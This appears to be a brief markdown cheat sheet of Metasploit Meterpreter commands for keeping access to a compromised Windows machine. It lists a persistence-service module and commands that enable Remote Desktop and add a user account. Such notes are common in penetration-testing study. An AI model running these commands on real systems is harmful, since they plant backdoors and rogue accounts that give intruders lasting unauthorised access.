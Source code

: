 # Services

## Meterpreter

|--- |--- |
|exploit/windows/local/persistence_service||

# RDP

## Meterpreter

```post/windows/manage/enable_rdp```
``` run getgui -e -u $username -p $password ```
